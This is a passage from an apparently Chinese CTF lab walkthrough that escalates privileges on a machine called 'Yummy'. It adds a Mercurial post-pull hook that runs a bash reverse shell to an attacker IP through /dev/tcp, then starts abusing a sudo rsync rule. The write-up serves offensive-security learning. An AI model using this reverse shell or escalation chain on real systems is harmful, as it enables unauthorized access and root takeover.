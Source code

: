 可以看到`qa`用户可以以`dev`身份进行**拉取仓库**

查看这个`hg`的**配置文件**

```
qa@yummy:~$ cat .hgrc
# example user config (see 'hg help config' for more info)
[ui]
# name and email, e.g.
# username = Jane Doe <jdoe@example.com>
username = qa
.....
.....
[trusted]
users = qa, dev
groups = qa, dev
```

可以添加一个`hook`，让执行完`pull`命令后自动执行一个脚本

```
[trusted]
users = qa, dev
groups = qa, dev

#add this
[hooks]
post-pull = /tmp/shell.sh
```

`shell.sh`的内容是：`bash -c 'bash -i >& /dev/tcp/10.10.xx.xx/500 0>&1'`

完整命令如下

```
qa@yummy:/tmp$ cd /tmp;mkdir .hg;chmod 777 .hg;cp /home/qa/.hgrc /tmp/.hg/hgrc
qa@yummy:/tmp$  sudo -u dev /usr/bin/hg pull /home/dev/app-production/
```

查看`dev`的命令权限

```
dev@yummy:/tmp$ sudo -l
sudo -l
Matching Defaults entries for dev on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dev may run the following commands on localhost:
    (root : root) NOPASSWD: /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/* /opt/app/
```

这条命令使用 `rsync` 将 `/home/dev/app-production/` 目录下的所有文件（排除 `.hg` 目录）同步到 `/opt/app/` 目录。

`rsync`有一个参数`--chown`**改变文件或目录的所有者和所属组**。

先将`bash`赋值进`app-production`目录

```
dev@yummy:~$ cp /bin/bash /home/dev/app-production/bash
```
